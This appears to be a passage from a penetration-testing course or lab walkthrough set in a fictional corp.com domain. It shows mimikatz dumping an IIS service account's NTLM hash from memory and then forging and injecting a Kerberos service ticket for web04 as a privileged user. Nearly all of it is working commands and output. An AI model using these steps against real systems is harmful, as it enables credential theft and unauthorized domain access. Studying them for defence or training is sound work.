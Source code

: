 ```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1147751 (00000000:00118367)
Session           : Service from 0
User Name         : iis_service
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 4:52:14 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09
         * SHA1     : ad321732afe417ebbd24d5c098f986c07872f312
         * DPAPI    : 1210259a27882fac52cf7c679ecf4443
...

```

```
PS C:\Users\jeff> whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
```

We need to provide the domain SID (/sid:), domain name (/domain:), and the target where the SPN runs (/target:). We also need to include the SPN protocol (/service:), NTLM hash of the SPN (/rc4:), and the /ptt option, which allows us to inject the forged ticket into the memory of the machine we execute the command on.

Finally, we must enter an existing domain user for /user:. This user will be set in the forged ticket. For this example, we'll use jeffadmin. However, we could also use any other domain user since we can set the permissions and groups ourselves.

{% code title="" overflow="wrap" lineNumbers="true" %}
```
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
User      : jeffadmin
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4d28cf5252d39971419580a51484ca09 - rc4_hmac_nt
Service   : http
Target    : web04.corp.com
Lifetime  : 9/14/2022 4:37:32 AM ; 9/11/2032 4:37:32 AM ; 9/11/2032 4:37:32 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jeffadmin @ corp.com' successfully submitted for current session
```